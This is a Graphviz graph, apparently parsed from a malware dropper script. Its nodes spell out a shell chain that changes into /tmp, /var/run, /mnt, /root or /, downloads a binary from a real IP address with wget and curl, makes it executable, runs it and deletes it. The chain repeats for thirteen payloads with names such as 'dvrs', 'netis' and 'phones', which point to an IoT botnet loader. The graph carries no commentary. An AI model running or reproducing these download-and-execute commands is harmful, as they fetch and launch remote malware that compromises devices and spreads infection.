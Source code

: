 digraph {
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 10 [label="||,"];
10 [label="wget http://217.61.4.189/Flses "];
10 -> 12 [label=";,"];
12 [label="curl -O http://217.61.4.189/Flses "];
12 -> 14 [label=";,"];
14 [label="chmod +x Flses "];
14 -> 16 [label=";,"];
16 [label="./Flses "];
16 -> 18 [label=";,"];
18 [label="rm -rf Flses "];
18 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 30 [label="||,"];
30 [label="wget http://217.61.4.189/7331 "];
30 -> 32 [label=";,"];
32 [label="curl -O http://217.61.4.189/7331 "];
32 -> 34 [label=";,"];
34 [label="chmod +x 7331 "];
34 -> 36 [label=";,"];
36 [label="./7331 "];
36 -> 38 [label=";,"];
38 [label="rm -rf 7331 "];
38 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 50 [label="||,"];
50 [label="wget http://217.61.4.189/hxorss "];
50 -> 52 [label=";,"];
52 [label="curl -O http://217.61.4.189/hxorss "];
52 -> 54 [label=";,"];
54 [label="chmod +x hxorss "];
54 -> 56 [label=";,"];
56 [label="./hxorss "];
56 -> 58 [label=";,"];
58 [label="rm -rf hxorss "];
58 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 70 [label="||,"];
70 [label="wget http://217.61.4.189/ifican "];
70 -> 72 [label=";,"];
72 [label="curl -O http://217.61.4.189/ifican "];
72 -> 74 [label=";,"];
74 [label="chmod +x ifican "];
74 -> 76 [label=";,"];
76 [label="./ifican "];
76 -> 78 [label=";,"];
78 [label="rm -rf ifican "];
78 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 90 [label="||,"];
90 [label="wget http://217.61.4.189/else "];
90 -> 92 [label=";,"];
92 [label="curl -O http://217.61.4.189/else "];
92 -> 94 [label=";,"];
94 [label="chmod +x else "];
94 -> 96 [label=";,"];
96 [label="./else "];
96 -> 98 [label=";,"];
98 [label="rm -rf else "];
98 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 110 [label="||,"];
110 [label="wget http://217.61.4.189/dvrs "];
110 -> 112 [label=";,"];
112 [label="curl -O http://217.61.4.189/dvrs "];
112 -> 114 [label=";,"];
114 [label="chmod +x dvrs "];
114 -> 116 [label=";,"];
116 [label="./dvrs "];
116 -> 118 [label=";,"];
118 [label="rm -rf dvrs "];
118 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 130 [label="||,"];
130 [label="wget http://217.61.4.189/phones "];
130 -> 132 [label=";,"];
132 [label="curl -O http://217.61.4.189/phones "];
132 -> 134 [label=";,"];
134 [label="chmod +x phones "];
134 -> 136 [label=";,"];
136 [label="./phones "];
136 -> 138 [label=";,"];
138 [label="rm -rf phones "];
138 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 150 [label="||,"];
150 [label="wget http://217.61.4.189/netis "];
150 -> 152 [label=";,"];
152 [label="curl -O http://217.61.4.189/netis "];
152 -> 154 [label=";,"];
154 [label="chmod +x netis "];
154 -> 156 [label=";,"];
156 [label="./netis "];
156 -> 158 [label=";,"];
158 [label="rm -rf netis "];
158 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 170 [label="||,"];
170 [label="wget http://217.61.4.189/ssh "];
170 -> 172 [label=";,"];
172 [label="curl -O http://217.61.4.189/ssh "];
172 -> 174 [label=";,"];
174 [label="chmod +x ssh "];
174 -> 176 [label=";,"];
176 [label="./ssh "];
176 -> 178 [label=";,"];
178 [label="rm -rf ssh "];
178 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 190 [label="||,"];
190 [label="wget http://217.61.4.189/huh "];
190 -> 192 [label=";,"];
192 [label="curl -O http://217.61.4.189/huh "];
192 -> 194 [label=";,"];
194 [label="chmod +x huh "];
194 -> 196 [label=";,"];
196 [label="./huh "];
196 -> 198 [label=";,"];
198 [label="rm -rf huh "];
198 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 210 [label="||,"];
210 [label="wget http://217.61.4.189/noice "];
210 -> 212 [label=";,"];
212 [label="curl -O http://217.61.4.189/noice "];
212 -> 214 [label=";,"];
214 [label="chmod +x noice "];
214 -> 216 [label=";,"];
216 [label="./noice "];
216 -> 218 [label=";,"];
218 [label="rm -rf noice "];
218 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 230 [label="||,"];
230 [label="wget http://217.61.4.189/mate "];
230 -> 232 [label=";,"];
232 [label="curl -O http://217.61.4.189/mate "];
232 -> 234 [label=";,"];
234 [label="chmod +x mate "];
234 -> 236 [label=";,"];
236 [label="./mate "];
236 -> 238 [label=";,"];
238 [label="rm -rf mate "];
238 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 250 [label="||,"];
250 [label="wget http://217.61.4.189/lmaooo "];
250 -> 252 [label=";,"];
252 [label="curl -O http://217.61.4.189/lmaooo "];
252 -> 254 [label=";,"];
254 [label="chmod +x lmaooo "];
254 -> 256 [label=";,"];
256 [label="./lmaooo "];
256 -> 257 [label=";,"];
}
